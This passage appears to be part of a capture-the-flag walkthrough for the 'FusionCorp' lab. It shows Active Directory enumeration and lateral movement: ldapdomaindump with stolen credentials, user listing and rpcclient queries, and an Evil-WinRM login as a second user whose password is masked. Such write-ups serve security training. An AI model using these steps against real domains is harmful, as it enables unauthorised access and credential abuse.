 <br>

<h3>l</h3>

```bash
ldapdomaindump $IP -u 'fusion.corp\lparker' -p '****************' --no-json --no-grep
```


<br>

<h3>Users</h3>

```bash
*Evil-WinRM* PS C:\Users\lparker\Desktop> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    jmurphy
krbtgt                   lparker
```

<br>

```bash
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         3/3/2021   3:49 AM                Administrator
d-----         3/3/2021   5:54 AM                jmurphy
d-----         3/3/2021   5:54 AM                lparker
d-r---         3/3/2021   3:49 AM                Public
```

<br>

<h3> User <code>jmurphy</code></h3>

<p>

- <code>jmurphy</code>  : <code>****************</code></p>

```bash
:~/FusionCorp# rpcclient -U lparker fusion.corp
```

<img width="977" height="584" alt="image" src="https://github.com/user-attachments/assets/dbedbc8b-2349-43e4-a81c-ceff4f85a2e6" />

<br>

```bash
:~/FusionCorp# evil-winrm -i fusion.corp -u jmurphy
Enter Password: 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jmurphy\Desktop> dir


```